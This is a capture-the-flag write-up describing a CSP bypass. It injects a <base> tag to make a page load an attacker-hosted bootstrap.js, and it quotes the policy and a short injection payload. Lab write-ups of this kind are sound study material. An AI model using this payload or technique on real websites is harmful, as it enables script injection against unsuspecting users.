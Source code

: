 # Securinets-CTF-Finals-2022  
## XwaSS-ftw Writeup


This challenge was about achieving an XSS by bypassing the CSP

Challenge :

![image](https://user-images.githubusercontent.com/58823465/167916910-78285058-5944-4b8d-8de8-55650fc0cca5.png)


We can find the CSP in the source code 

``` 
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-uupQ2er9ZEFzu3';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```

Using the CSP validator

![image](https://user-images.githubusercontent.com/58823465/167917258-82fea6ed-7a13-4b8c-838d-e240c89e3966.png)

We can see the the "base-uri missing" meaning we can use `` <base> `` tags and use a technique called Dangling Markup injection.

So to abuse this we can try and redirect to a url just to test if the base tags are working

we can use this payloads 

```
'><base href="https://example.com">
``` 

![image](https://user-images.githubusercontent.com/58823465/167918956-ef963dd8-37d1-4fcd-87af-441eee9ce375.png)


and we can notice in the console this particular error 

![image](https://user-images.githubusercontent.com/58823465/167918067-d5b8dc28-87d5-4709-90e0-dd8c7af14469.png)

This means it's trying to fetch the relative path `` /assets/js/bootstrap.js ``, so all we need to do is spin up our own server and add the same relative path and inject some xss in the file "bootstrap.js"

So this is the setup for the server 



note: if you're using a VM make sure you're using NAT for the ngrok server to work 🙃 .. it took me a while to notice that my VM was on bridged mode)

